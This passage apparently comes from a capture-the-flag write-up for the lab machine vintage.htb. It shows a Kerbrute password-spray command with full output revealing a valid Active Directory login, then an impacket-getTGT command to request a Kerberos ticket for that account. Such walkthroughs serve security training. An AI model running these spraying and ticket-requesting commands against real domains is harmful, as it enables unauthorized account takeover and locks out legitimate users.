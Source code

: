 And we see that `Zer0the0ne` is the password for **SVC_SQL**


### KERBRUTE
---
`Kerbrute` is a tool designed to interact with the **Kerberos** protocol, which is the authentication system used in **Active Directory (AD)** environments. In more specific terms, `Kerbrute` is primarily used to perform brute force attacks and username enumeration in a **Kerberos**-based domain.

To force the user, we execute the following command

```bash
❯./kerbrute --dc vintage.htb -d vintage.htb -v passwordspray usernames.txt Zer0the0ne
 
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
 
Version: v1.0.3 (9dad6e1) - 12/04/24 - Ronnie Flathers @ropnop
 
2024/12/04 09:36:16 >  Using KDC(s):
2024/12/04 09:36:16 >   vintage.htb:88
 
2024/12/04 09:36:16 >  [!] krbtgt@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] Guest@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] gMSA01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] FS01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] M.Rossi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] L.Bianchi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] R.Verdi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] DC01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] G.Viola@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] Administrator@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_sql@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] P.Rosa@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_ark@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] L.Bianchi_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_ldap@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] C.Neri_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [+] VALID LOGIN:  C.Neri@vintage.htb:Zer0the0ne
2024/12/04 09:36:17 >  Done! Tested 17 logins (1 successes) in 0.481 seconds
```

The account C.Neri@vintage.htb has successfully logged in with the password Zer0the0ne. Let's take a look at his privileges with **BloodHound**

![[Screenshot 2025-03-07 132847.jpg]]

We see that it belongs to the group `SERVICEMANAGERS@VINTAGE.HTB` so we are going to get the credentials for this account, we run the following

```bash
impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb
```
